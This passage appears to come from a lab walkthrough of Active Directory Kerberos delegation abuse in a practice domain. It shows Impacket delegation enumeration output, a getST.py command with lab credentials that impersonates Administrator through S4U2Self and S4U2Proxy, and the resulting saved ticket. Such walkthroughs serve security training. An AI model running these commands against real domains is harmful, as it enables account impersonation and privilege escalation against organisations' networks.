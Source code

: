 ```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

AccountName   AccountType  DelegationType                      DelegationRightsTo                         SPN Exists
------------  -----------  ----------------------------------  -----------------------------------------  ----------
jon.snow      Person       Constrained w/ Protocol Transition  CIFS/winterfell                            No
jon.snow      Person       Constrained w/ Protocol Transition  CIFS/winterfell.north.sevenkingdoms.local  No
CASTELBLACK$  Computer     Constrained                         HTTP/winterfell                            No
CASTELBLACK$  Computer     Constrained                         HTTP/winterfell.north.sevenkingdoms.local  Yes
```

### With Protocol Transition

This means that it allows a service to obtain a Kerberos ticket on behalf of a user, even if the user authenticated using a non-Kerberos protocol, such as NTLM authentication.

Now first let's ask a TGT for the user and execute S4U2Self followed by a S4U2Proxy in order to impersonate an admin user to the SPN on the target.

`getST.py` from impacket can be used for this task:

`getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '10.4.10.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'`

And the ticket is saved now:

```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for user
[*] Impersonating Administrator
/home/kali/.local/bin/getST.py:380: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/.local/bin/getST.py:477: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/home/kali/.local/bin/getST.py:607: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/kali/.local/bin/getST.py:659: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@CIFS_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache
```
